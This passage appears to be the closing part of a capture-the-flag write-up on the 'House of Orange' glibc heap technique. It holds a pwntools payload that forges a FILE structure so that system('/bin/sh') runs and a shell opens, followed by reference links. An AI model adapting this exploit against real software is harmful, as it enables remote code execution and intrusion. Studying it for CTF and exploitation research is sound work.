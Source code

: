 ```python
payload = "/bin/sh\x00" + p64(0x61)
payload += p64(0) + p64(IO_list_all-0x10)
payload += p64(0)*11 + p64(system) 
payload += p64(0)*4
payload += p64(heap_base+0x960) + p64(2)
payload += p64(3) + p64(0)
payload += p64(1) + p64(0)
payload += p64(0) + p64(heap_base+0x930)

upgrade(0x420+len(payload), "\x00"*0x420+payload, 1, 1)

build(3,"3",3,3)

w.interactive()

```



reference

https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/

https://www.lazenca.net/display/TEC/House+of+Orange

http://tech.c2w2m2.com/pwn/house-of-orange/

http://newbiepwn.tistory.com/148

http://say2.tistory.com/entry/HITCON-CTF-Qual-2016house-of-orange

http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html

https://1ce0ear.github.io/2017/11/26/study-house-of-orange/ 

                 
